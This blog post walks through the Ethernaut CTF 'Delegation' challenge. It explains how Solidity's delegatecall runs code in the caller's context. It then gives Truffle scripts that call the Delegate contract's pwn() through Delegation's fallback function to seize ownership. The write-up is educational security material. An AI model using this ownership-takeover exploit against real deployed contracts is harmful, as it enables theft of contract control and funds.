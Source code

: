 Title: Solving OpenZeppelin's Ethernaut CTF - Delegation
Date: 2018-08-05 16:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-delegation
Summary: Post #7 of a series in which we tackle the challenges in the [Ethernaut CTF by OpenZeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In Delegation, we study how to exploit a trustful contract that uses a not-so-safe low-level call.

## Introduction
If you haven't realized by now, let me tell you something, Solidity's low-level calls are definitely not your best friends. I'm talking about `call`, `callcode` and `delegatecall`. They can be deceiving, as we've already seen in [Fallback](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback/). That's the reason why many static analyzers will raise an alarm whenever any of them is found. I'm not saying you shouldn't use them - they exist for a reason - but, beware.

Now go take a look at the [Delegation challenge](https://ethernaut.zeppelin.solutions/level/0x68756ad5e1039e4f3b895cfaa16a3a79a5a73c59){:target="_blank",:rel="noopener"} and come back once you're done.

In a nutshell, we're are given an instance of the Delegation contract over which we should claim ownership. As you may have seen, the contract only has one function that we can interact with, which happens to be its fallback function. Quite a narrow scope there - so it all comes down to this line: `delegate.delegatecall(msg.data)`, the vuln must be there. Let's see what `delegatecall` does.

## In delegatecall we trust
Sadly, in this case.

First of all, `delegatecall` is just another type of message that smart contracts can send to each other - with some peculiarities, but a message at the end of the day. According to the [Solidity docs on delegatecall](https://solidity.readthedocs.io/en/v0.4.24/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries):

> [...] is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and `msg.sender` and `msg.value` do not change their values.

Yeap, chinese is easier, I know. Let's put this straight.

Imagine two happy friends: Alan and Bob. Alan is the laziest guy ever, he does not even bother to do anything himself, 'cause why do something when someone else can do it for you, right ? So whenever he needs to do the cleaning at home, he calls his super trustworthy BFF, Bob. Alan happens to be super trustful of Bob, I mean, like hell. So he not only let's Bob do the work, but also gives Bob all the keys to his house. All of them, even the safe-deposit box key. 

The thing is, Bob ain't no saint either. He gained Alan's **trust**, and now can do whatever he pleases with Alan's belongings. He can move around anything in Alan's house, even those things that were to be kept private.

Now imagine Alan and Bob are not humans, but smart contracts. We'll call them A and B for short. Whenever A calls delegatecall on B (B.delegatecall(...)) he's letting B proccess the whole call. B has now access to A's storage and can modify it freely. For instance, in the Delegation challenge, B (Delegate) could potentially change the owner of A (Delegation). How can we achieve that ?

## In delegate call we shouldn't have trust
Check Delegate's code. In particular, this function:

~~~solidity
function pwn() public {
        owner = msg.sender;
}
~~~

Whoever calls that `pwn` function, automatically becomes the owner of the contract. Now what if we called it through `delegatecall` ? As we read in the docs: `msg.sender` does not changes its original value, and the call would be executed **in the caller's context**. Which means that, to pass the challenge, we need to call Delegate's `pwn` function through the `delegatecall` in the Delegation contract. That way, the owner of Delegation would be changed to the sender who sent the initial call to Delegate.

Enough talk. Let's do it.

## Exploiting an unsafe delegatecall
Include both Delegate.sol and Delegation.sol in your `contracts` folder. Then write the deployment scripts as follows and run `npx truffle migrate`:

~~~javascript
let Delegate = artifacts.require('./Delegate.sol')
let Delegation = artifacts.require('./Delegation.sol')

module.exports = deployer => {
    // We first deploy Delegate to obtain its address
    deployer.deploy(Delegate, web3.eth.accounts[0]).then(() => {
        // Once Delegate is deployed, pass its address to the Delegation contract constructor
        return deployer.deploy(Delegation, Delegate.address)
    })
}
~~~

For the exploit, create a new file in your `exploits` folder called `delegation.exploit.js`. Set it up following the same structure we used for previous exploits.

~~~javascript
const DelegationContract = artifacts.require('Delegation')
const assert = require('assert')

async function execute(callback) {

    // Instance the Delegation contract
    let delegationContract = await DelegationContract.deployed()
    
    // Get the attacker account
    let attackerAccount = web3.eth.accounts[1]
    console.log(`Attacker address: ${attackerAccount}`)

    // Check who's the owner of the Delegation contract
    let owner = await delegationContract.owner.call()
    console.log(`Initial owner: ${owner}`)
    
    // Actual exploit will be here

    callback()
}
~~~

Next step: calling the fallback function of Delegation. In previous posts we saw that in order to execute a contract's fallback function code, all we need to do is send a transaction to the contract. However, this will be a special case.

All Ethereum transactions include a `data` field, in which we can include a payload we want to send to a contract. For instance, a contract's function signature and parameters that we wish to call. By inspecting Delegation's code, you can see that everything inside the `data` field is be passed to the Delegate contract and executed by it. Thus, we will call the `pwn` function, but first we'll need to encode it the Ethereum way.

To do so, we need to hash the prototype string of the function like functionName(type1,type2,...) with Keccak256, and then take only the first 4 bytes. That is why you will often see something like `bytes4(keccak256(...))` in Solidity code. Yet, we're writting Javascript here, not Solidity, and we can take advantage of `web3` utility functions.

The final part of the exploit looks like:

~~~javascript
await delegationContract.sendTransaction({
        from: attackerAccount,
        data: encodeFunctionSignature('pwn()')
})

// Check who's the owner of the Delegation contract
owner = await delegationContract.owner.call()
assert.equal(owner, attackerAccount)
console.log(`Final owner: ${owner}`)
~~~

And the `encondeFunctionSignature` function goes like this:

~~~javascript
function encodeFunctionSignature(functionName) {
    return web3.eth.abi.encodeFunctionSignature('pwn()')
}
~~~

You can check what that `web3` function is actually doing in here: [https://github.com/ethereum/web3.js/blob/1.0/packages/web3-eth-abi/src/index.js#L199](https://github.com/ethereum/web3.js/blob/1.0/packages/web3-eth-abi/src/index.js#L199){:rel="noopener"}


All set! You can now call `npx truffle exec exploits/delegation.exploit.js`, pwn the Delegation contract, and finally become its owner!

Find the full exploit code at [https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/delegation.exploit.js](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/delegation.exploit.js){:rel="noopener"}.

That's it, another challenged solved. In the next post, we'll tackle [Force](https://ethernaut.zeppelin.solutions/level/0x24d661beb31b85a7d775272d7841f80e662c283b){:rel="noopener"} and, spoiler alert, learn how to press a hidden self-destruct button that all smart contracts have.
